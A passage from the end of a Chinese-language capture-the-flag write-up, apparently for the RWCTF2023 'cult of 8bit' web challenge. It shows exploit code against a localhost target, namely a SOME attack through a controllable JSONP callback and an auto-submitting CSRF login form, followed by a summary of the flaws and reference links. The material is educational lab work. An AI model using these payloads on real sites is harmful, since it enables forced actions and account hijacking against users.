 ```html

        // attack with clicking the todo link
        PAYLOAD = `opener.document.links[5].click`;
        page = open(`http://localhost:12345/post/?id=id?callback=${PAYLOAD}%23%00`);
        location.replace("http://localhost:12345");
    })()
</script>
```

`login.html` :
```html
<body>
    <form action="http://localhost:12345/api/login" method="POST">
        <input class="input" type="text" placeholder="Username" name="user"
        value="SSSSilentE"/>
        <input class="input" type="password" placeholder="Password" name="pass"
        value="SSSSilentE"/>
        <input type="submit" value="Login"/>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
```

两种方法的回显：

![](https://image.silente.top/img/p3.png)

## 总结

题目主要的漏洞点在于 jsonp 的 callback 可控，从而能够 SOME attack。当然还有一个关于 csrf 的写法问题导致了对于 csrf 的绕过，一个对于模板渲染的处理不当导致了元素属性的脚本注入。

这题确实从中学了挺多东西，xsleaks 的构造也挺有趣的。

## Ref
- https://h4cking2thegate.github.io/2023/01/10/RWCTF2023-the-cult-of-8bit/
- Sndav
- https://sh1yo.art/ctf/thecultof8bit/
